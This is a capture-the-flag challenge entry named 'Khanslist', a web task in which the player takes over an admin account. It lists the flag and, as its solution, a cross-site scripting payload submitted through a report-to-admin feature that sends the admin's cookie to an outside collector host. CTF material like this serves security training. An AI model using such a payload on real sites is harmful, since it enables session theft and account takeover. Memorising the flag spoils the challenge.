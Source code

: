 # RunCodeWeb

## Name: Khanslist

### Category: Web

### Message:
```
Use/Create your account at <a target="_new" href="https://derp.runcode.ninja">Derp Runcode</a>.<br>
Acquire the admin account.
<br><br>
<a href="https://twitter.com/ohai_ninja" target="_blank">author: @ohai_ninja</a>
```

### Value: 20

### Max Attempts: 0

### Flag: 
```
derp{E451357_xSS_3v3r}
```

### Files:
```
[docker](xss-site-1)
```
### Solution:
```
Report to admin feature: <script>document.write('<img src="http://10.YY.XX.2:9000/collect.gif?cookie=' + document.cookie + '" />');</script>
```

